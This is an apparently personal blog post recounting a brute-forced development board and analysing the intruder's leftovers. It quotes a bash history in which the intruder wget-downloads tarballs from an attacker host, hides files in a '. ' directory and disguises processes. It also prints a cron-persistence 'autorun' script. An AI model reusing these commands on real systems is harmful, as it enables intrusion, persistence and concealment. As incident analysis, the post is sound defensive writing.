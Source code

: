 ```yaml
---
title:  Been HACKED!
date:   2013-09-07
categories: [Blah]
---
```


Recently my Kayla development board cannot get correct DHCP address
for some reason. I sent an email to sysadmin. They replied that an
alert was triggered on their IDS and my board was believed has been
compromised, so they blocked it:

~~~
> 128.223.6.140 triggered alerts when it grabbed files from
> superuser.clan.su.  We have identified this type of activity as being
> similar to activity that occurred with a server, during that the same
> timeframe, that was confirmed as being successfully SSH brute
> forced.
>
> Based on the available data 128.223.6.140 likely has an account, with
> a weak password, that was successfully brute forced.
>
> Please block this system on the CIS network until the system
> administrator can investigate the issue.  If you are unable to block
> the system please update this ticket and I'll block the IP address on
> the campus network. IDS alert data is available below.  Timestamps
> are local TZ.
~~~

<!-- more -->

SH*T! Kayla comes with an factory default Ubuntu. There is a default
user `ubuntu` with password `ubuntu`, which is indeed **WEAK**. I am
aware of that but didn’t take it seriously: Kayla is just an embedded
system which contains no critical data, and I thought I won’t be so
unlucky to be the prey.

It turns out I was wrong.

Do tell your son the world is dangerous.

I am curious what has been done on Kayla. Looks like the hacker didn’t
bother to erase his footprint in `~/.bash_history`:

~~~
1399 w
1400 uptime
1401 cd /var/tmp
1402 ls -a
1403 mkdir ". "
1404 cd ". "
1405 wget superuser.clan.su/hu.tgz
1406 tar zxvf hu.tgz
1407 rm -rf hu.tgz
1408 cd .m
1409 ls
1410 nano zmeu.ini
1411 vi zmeu.ini
1412 ./autorun
1413 ./run
1414 uname -a
1415 cd ..
1416 rm -rf .m
1417 wget superuser.clan.su/miau.tgz
1418 tar zxvf miau.tgz
1419 rm -rfm i
1420 cd .us
1421 rm -rf miau.tgz
1422 cd .usr/
1423 ls
1424 vi miaurc
1425 ./h -s /usr/sbin/sshd ./init -d /var/tmp/". "/.usr
1426 cd ..
1427 ls -a
1428 rm -rf .usr/
1429 wget superuser.clan.su/psybnc-linuxRO.tgz
1430 tar zxvf psybnc-linuxRO.tgz
1431 rm -rf psybnc-linuxRO.tgz
1432 mv psybnc/ .p
1433 cd .p
1434 ls
1435 chmod 777 *
1436 chmod +X *
1437 ls
1438 ps x
1439 ps -aux
1440 mv ntpd lightdm
1441 ./lightdm
1442 uname -a
~~~

Hmmm... A directory named `. ` (dot space)? Interesting.

`zmeu.ini`? Google tells me `ZmEu` is an exploit scanner. I downloaded
the `hu.tgz`, unpacked and had a quick check:

~~~
$ file autorun
autorun: POSIX shell script, ASCII text executable
$ cat autorun
#!/bin/sh
pwd > zmeu.dir
dir=$(cat zmeu.dir)
echo "* * * * * $dir/update >/dev/null 2>&1" > zmeu.cron
crontab zmeu.cron
crontab -l | grep update
echo "#!/bin/sh
if test -r $dir/zmeu.pid; then
pid=\$(cat $dir/zmeu.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > update
chmod u+x update
~~~

OK, he installed a cron job.

~~~
ubuntu@kayla:~$ crontab -l
* * * * * /var/tmp/. /.m/update >/dev/null 2>&1
~~~

Now what’s in `./run`?

~~~
$ file run
run: POSIX shell script, ASCII text executable
$ cat run
#!/bin/sh
export PATH=.
-sh
$ file -- -sh
-sh: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.4.1, not stripped
~~~

So he invoked a (most likely customized) shell, and what has been done
under this shell is unknown to me.

`miau.tgz`? Google says `miau` is an "IRC-bouncer/proxy". So the
hacker want some IRC bot? 1419~1422 looks like some typo to me. Don’t
panic, dude.

I am wandering what is `./h`. Luckily there is a `h.c` which I guess
is the source code for `./h` in the tarball.

~~~
$ file h
h: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.4.1, not stripped
$ head h.c
/*

psf -- Process Stack Faker (a.k.a. Fucker)
Coded by Stas; (C)opyLeft by SysD Destructive Labs, 1997-2003

Tested on: FreeBSD 4.3, Linux 2.4, NetBSD 1.5, Solaris 2.7

Compile with:
# gcc -O2 -o h h.c
# strip h
~~~

Good, typical hacker tool.

Next tarball is `psybnc-linuxRO.tgz` which turns out to be yet another
IRC bouncer. Why did he need two IRC bouncer? I doubt I can figure out
the reason.

OH BOY! WAIT! DID I MENTION THAT KAYLA IS AN ARM BASED SYSTEM?

~~~
ubuntu@kayla:~$ uname -a
Linux kayla 3.1.10-carma #1 SMP PREEMPT Wed Jul 10 12:53:50 CEST 2013 armv7l armv7l armv7l GNU/Linux
~~~

All the binaries the hacker downloaded in the tarball are for Intel x86!

I believe this is what the hacker was thinking about when he saw the
output of `uname -a` (line 1442):

> WTF!!!

This makes me feel much better :D
